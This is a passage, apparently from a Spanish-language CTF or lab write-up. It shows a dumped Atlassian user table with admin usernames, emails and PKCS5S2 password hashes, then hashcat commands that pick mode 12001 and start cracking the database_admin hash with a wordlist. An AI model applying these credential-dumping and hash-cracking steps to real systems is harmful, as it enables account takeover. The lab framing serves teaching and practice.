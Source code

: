 ```
--------+----------------+-----------------+--------+-------------------------+-------------------------+------------+------------------+---------------+-----------------+------------------------+------------------------+------------------------------------+------------------------------------+--------------------------------------+--------------+---------------------------------------------------------------------------
 229377 | admin          | admin           | T      | 2022-09-09 21:10:26.365 | 2022-09-09 21:10:26.365 | Alice      | alice            | Admin         | admin           | Alice Admin            | alice admin            | alice@industries.internal          | alice@industries.internal          | d9da2333-8bd1-4a8e-82d3-0613aead5d22 |        98305 | {PKCS5S2}3vfgC35A7Gnrxlzbvp32yM8zXvdE8U8bxS9bkP+3aS3rnSJxz4bJ6wqtE8d95ejA
 229378 | trouble        | trouble         | T      | 2022-09-09 21:13:04.598 | 2022-09-09 21:13:04.598 |            |                  | Trouble       | trouble         | Trouble                | trouble                | trouble@industries.internal        | trouble@industries.internal        | 84bcf8cf-618d-4bec-b5c0-1b4a21fbcd6b |        98305 | {PKCS5S2}tnbti4h38VDOh0xPrBHr7JBYjev7wws+ETHL1YyjSpIWVUz+66zXwDvbBJkJz342
 229379 | happiness      | happiness       | T      | 2022-09-09 21:13:35.831 | 2022-09-09 21:13:35.831 |            |                  | Happiness     | happiness       | Happiness              | happiness              | happiness@industries.internal      | happiness@industries.internal      | 8b9c660a-cfee-48ac-8214-737df1786dd2 |        98305 | {PKCS5S2}1hCLEv054BGYa9QkCAZKSmotKb4d8WbuDc/gGxHngs0cL3+fJ4OmCt6+fUM6HYlc
 229380 | hr_admin       | hr_admin        | T      | 2022-09-09 21:13:58.548 | 2022-09-09 21:13:58.548 | HR         | hr               | Admin         | admin           | HR Admin               | hr admin               | hr_admin@industries.internal       | hr_admin@industries.internal       | 0d31acb5-ba51-4725-ae64-ae7f5d51becc |        98305 | {PKCS5S2}aBZZw3HfmgYN3Dzg/Pg7GjagLdo+eRg+0JCCVId/KyNT4oVlNbhWPJtJNazs4F5R
 229381 | database_admin | database_admin  | T      | 2022-09-09 21:14:22.459 | 2022-09-09 21:14:22.459 | Database   | database         | Admin Account | admin account   | Database Admin Account | database admin account | database_admin@industries.internal | database_admin@industries.internal | 93d97033-f7d4-4a3c-80f4-55cc5faf03c7 |        98305 | {PKCS5S2}ueMu+nTGBtfeGXGBlXXFcJLdSF4uVHkZxMQ1Bst8wm3uhZcDs56a2ProZiSOk2hv
 229382 | rdp_admin      | rdp_admin       | T      | 2022-09-09 21:14:46.153 | 2022-09-09 21:14:46.153 | RDP        | rdp              | Admin         | admin           | RDP Admin              | rdp admin              | rdp_admin@industries.internal      | rdp_admin@industries.internal      | a8f8d9b5-dfcb-480b-b461-8efce939294c |        98305 | {PKCS5S2}vCcYx3LxTYB2KH2Sq4wLNLdAcS+4lX/yTQrvBJngifUEXcnIUHEwW0YnOe86W8tP
(6 rows)
```  
4. Guardamos el hash para decodificarlo con hascat en kali y obtener el password:
 `{PKCS5S2}ueMu+nTGBtfeGXGBlXXFcJLdSF4uVHkZxMQ1Bst8wm3uhZcDs56a2ProZiSOk2hv`   
 5.  Buscamos el modo con hashcat:
```
  hashcat -h | grep -i "PBKDF2-HMAC-SHA1"                          
  12000 | PBKDF2-HMAC-SHA1                                           | Generic KDF
  27400 | VMware VMX (PBKDF2-HMAC-SHA1 + AES-256-CBC)                | Full-Disk Encryption (FDE)
  12001 | Atlassian (PBKDF2-HMAC-SHA1)                               | Framework
  24410 | PKCS#8 Private Keys (PBKDF2-HMAC-SHA1 + 3DES/AES)          | Private Key
  22600 | Telegram Desktop < v2.1.14 (PBKDF2-HMAC-SHA1)              | Instant Messaging Service
```  
Seleccionamos el modo **12001**  y ejecutamos _hashcat_ 
```
hashcat -m 12001 hash.txt /usr/share/wordlists/fasttrack.txt                                               
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-skylake-avx512-Intel(R) Core(TM) i5-1035G1 CPU @ 1.00GHz, 14879/29823 MB (4096 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

```